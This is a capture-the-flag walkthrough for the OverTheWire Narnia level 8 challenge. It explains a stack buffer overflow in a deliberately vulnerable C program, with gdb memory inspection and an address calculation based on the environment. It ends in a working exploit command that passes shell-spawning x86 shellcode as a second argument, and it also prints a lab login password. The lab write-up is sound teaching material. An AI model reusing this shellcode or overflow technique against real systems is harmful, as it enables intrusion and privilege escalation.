

# Level 8 → Level 9

## Solution
```
ssh narnia8@narnia.labs.overthewire.org -p 2226
```
```
1aBcDgPttG
```
```
cd /narnia ; ls -al
```
```
./narnia8
```


Let's look at the code:

```
cat narnia8.c
```

The printed file is shown below:

```c
/*
    This program is free software; you can redistribute it and/or modify
    it under the terms of the GNU General Public License as published by
    the Free Software Foundation; either version 2 of the License, or
    (at your option) any later version.

    This program is distributed in the hope that it will be useful,
    but WITHOUT ANY WARRANTY; without even the implied warranty of
    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    GNU General Public License for more details.

    You should have received a copy of the GNU General Public License
    along with this program; if not, write to the Free Software
    Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
// gcc's variable reordering fucked things up
// to keep the level in its old style i am
// making "i" global until i find a fix
// -morla
int i;

void func(char *b){
        char *blah=b;
        char bok[20];
        //int i=0;

        memset(bok, '\0', sizeof(bok));
        for(i=0; blah[i] != '\0'; i++)
                bok[i]=blah[i];

        printf("%s\n",bok);
}

int main(int argc, char **argv){

        if(argc > 1)
                func(argv[1]);
        else
        printf("%s argument\n", argv[0]);

        return 0;
}
```

Let's look at the stack just after memset:
```
gdb ./narnia8
```
```
disas func
```


```
b *0x080491a2
```
```
r $(perl -e 'print "A"x19')
```
```
x/40wx $sp
```



* Yellow - `bok`
* Red - `blah`, contain the address of `argv[1]`
* Blue - `$bp` register
* Green - Return falue from the `func` to the `main`.

Now, let's take a look at argv[0]:

```
x/s 0xffffd7b0
```


Let's note where the argvs are actually located in memory:

```
x/5s 0xffffd7b0
```


looks familiar? This is because, in fact, the argvs go in right above the environment variables!

```
x/4s *((char **) environ)
```


**Conclusion:**<br />
The formula for calculating the address of the variable argv[1] (if there is only one) is <br />
**`&argv[1] = &environ[0] - len(argv[0]) - 1`** where the `-1` is to include the NULL at the end of the string.<br />

We need a part of the string (more precisely, the 20th to 24th bytes) to contain the address of the string itself. Otherwise in the stack, the 20th byte will overwrite the address of the string and the program will no longer refer to its place in memory to continue inserting values into the stack.<br />

And so when we know the size of the string in `argv[1]`, we can easily calculate its position and insert it into the string itself.<br />

Since we want the string to overwrite the address back, then the length of the string should be 32 bytes (20 + 4 + 4 + 4).<br />

So her address is: **`argv[1] = ((char **)enviorn) - 32 - 1 = 0xffffd7c4 - 33 = 0xffffd7a3`**

So the input string can be something like:
```
r $(perl -e 'print "A"x20, "\xa3\xd7\xff\xff", "BBBB", "CCCC"')
```
```
x/40wx $sp
```


```
b *0x080491e6
```
```
c
```
```
x/40wx $sp
```


Okay, so far so good. But - we'd like to replace "CCCC" with the address of... of what?

Can we insert shellcode as argv[2] and use its address? We will take shellcode from previous challenges and try:

* shellcode (level1->level2): `\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80`
* argv[2] == shellcode, so len(argv[2]) == 33

* &argv[1] == ((char **)environ) - ((len(argv[1]) + 1) + (len(argv[2]) + 1)) == ((char **)environ) - (33 + 34) == 0xffffd7c4 - 67 == 0xffffd781

* &argv[2] == ((char **)environ) - (len(argv[2]) + 1) == &argv[1] + (len(argv[1]) + 1) == 0xffffd781 + 33 == 0xffffd7a2

So, let's try this:

from the begining:
```
gdb ./narnia8
```
```
b *0x080491a2
```
```
b *0x080491e6
```
```
r $(perl -e 'print "A"x20, "\x81\xd7\xff\xff", "BBBB", "\xa2\xd7\xff\xff"') $(perl -e 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"')
```
```
x/40wx $sp
```


```
c
```
```
x/40wx $sp
```


```
x/6s *((char **)environ) - 67
```


* `-67`: (len(argv[1]) + 1) + (len(argv[2]) + 1)
* `0xffffd781`: &argv[1]
* `0xffffd7a2`: &argv[2], the shellcode!

```
del 1
```
```
del 2
```
```
c
```


## Password for the next level:
```

```
